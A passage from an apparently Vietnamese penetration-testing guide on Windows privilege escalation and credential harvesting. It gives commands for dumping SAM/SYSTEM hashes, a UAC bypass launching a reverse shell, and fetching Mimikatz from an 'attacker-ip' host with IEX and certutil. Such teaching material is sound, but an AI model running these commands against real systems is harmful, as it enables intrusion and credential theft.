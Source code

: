 ##### Kiểm tra PowerShell History
```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

#### 4.3.9. Các phương pháp leo thang đặc quyền nâng cao

##### Scheduled Tasks
```powershell
## Liệt kê scheduled tasks
schtasks /query /fo LIST /v

## Kiểm tra quyền trên file thực thi của task
icacls "C:\path\to\scheduled\task.exe"
```

##### SeBackup & SeRestore Privileges
```powershell
## Nếu có SeBackup/SeRestore privileges
reg save HKLM\SAM C:\temp\sam.save
reg save HKLM\SYSTEM C:\temp\system.save

## Dump hash trên máy tấn công
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

##### UAC Bypass
```powershell
## Sử dụng tiện ích UACME
UacMe.exe 23 "C:\path\to\reverse_shell.exe"

## Sử dụng eventvwr bypass
Start-Process eventvwr.exe
## DLL planting trong C:\Users\<user>\AppData\Local\Microsoft\Event Viewer\RecentViews
```


## 4.4. Credential Harvesting

Credential harvesting là quá trình thu thập thông tin xác thực từ hệ thống Windows đã bị xâm nhập. Đây là một bước quan trọng trong quá trình kiểm thử thâm nhập, đặc biệt là trong các môi trường Active Directory, nơi thông tin xác thực có thể được sử dụng để thực hiện các cuộc tấn công tiếp theo như lateral movement hay privilege escalation.

### 4.4.1. Mimikatz Usage

Mimikatz là công cụ mạnh mẽ nhất để thu thập thông tin xác thực trên Windows.

#### Tải và Chuẩn bị Mimikatz

```powershell
## Tải Mimikatz bằng PowerShell
IEX (New-Object Net.WebClient).DownloadString('http://attacker-ip/Invoke-Mimikatz.ps1')

## Hoặc sử dụng certutil
certutil.exe -f -urlcache http://attacker-ip/mimikatz.exe C:\temp\mimikatz.exe
```
